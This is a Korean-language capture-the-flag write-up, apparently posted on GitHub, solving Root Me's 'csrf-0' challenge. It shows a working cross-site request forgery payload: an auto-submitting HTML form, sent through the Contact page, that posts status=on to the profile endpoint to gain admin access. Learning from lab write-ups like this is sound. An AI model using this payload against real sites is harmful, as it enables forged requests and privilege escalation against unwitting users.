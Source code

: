 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Root ME Web Hacking csrf-0 Write-Up</h1>
</body>
<br>
<br>
</html>

문제 서버로 들어가자.

![image](https://github.com/user-attachments/assets/eea7cd75-a295-4d4b-b4d9-cd98d464479b)

로그인 창이 뜬다.

위에 ```Register```에 들어가도 똑같이 Username과 Password 입력 칸이 나온다. 여기서 회원가입을 하고 로그인 하면 되는것 같다.

일단 1234로 회원가입하고 로그인 해봤다.
![image](https://github.com/user-attachments/assets/8fd27b3f-6946-4008-84b8-27095099c42c)
![image](https://github.com/user-attachments/assets/3b634dab-5fa4-4cca-8104-764516cceca9)
![image](https://github.com/user-attachments/assets/e6138653-f20a-402a-8254-a7a720763b72)

로그인하니 ```Profile```페이지가 생겼다.
![image](https://github.com/user-attachments/assets/e515df6b-ab0e-49db-a8f2-168f870bcdd3)

들어가보니 ```Contact```, ```Profile```, ```Private```, ```Logout```이 새로 생겼는데 ```Private```는 관리자여야만 접근 할수 있다고 한다.
![image](https://github.com/user-attachments/assets/2150a579-6265-4da5-a597-882946684a67)

관리자 권한을 얻으려면 ```Profile```에서 ```Status```를 체크하면 될것 같은데 체크가 박스가 되지 않는다.
![image](https://github.com/user-attachments/assets/507c5f73-489f-4411-bbff-5453e528203b)

csrf 문제이니 ```Contact```에서 명령어를 입력해서 ```Status``` 체크박스가 체크되게 하면 될것 같다.

구글링을 통해서 form 태크에 접근할 수 있는 명령어들을 찾아 보았다.
```python
<script>
document.username.submit()
</script>
```
강제로 submit하게 하는 명령어라고 한다.

우선 ```Contact``` 페이지에서 개발자 도구를 열어서 Form 부분 코드를 싹 긁어왔다.
![image](https://github.com/user-attachments/assets/c3e8f1b3-d1f2-41c2-b046-84803755110e)

불필요한 태그들을 지우고 ```checkbox```의 ```vaule```를 ```on```으로 바꿔줘었다.
그리고 뒤에 위에쓴 명령어를 추가해보았다.
```python
<html>
<form name="aaa" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="post" enctype="multipart/form-data">
		<input type="text" name="username" value="1234">
		<input type="checkbox" name="status" value="on">
		</form>
<script>
document.aaa.submit()
</script>
</html>
```
```Contact```에 입력했다. 그리고 ```Private```페이지로 들어가 보았다.
![image](https://github.com/user-attachments/assets/3fa0b820-291f-4d46-9dc2-40583a07ed5a)

![image](https://github.com/user-attachments/assets/b1e5256e-e863-4bb4-83cd-0a0092e159fa)

FLAG를 얻었다!!!
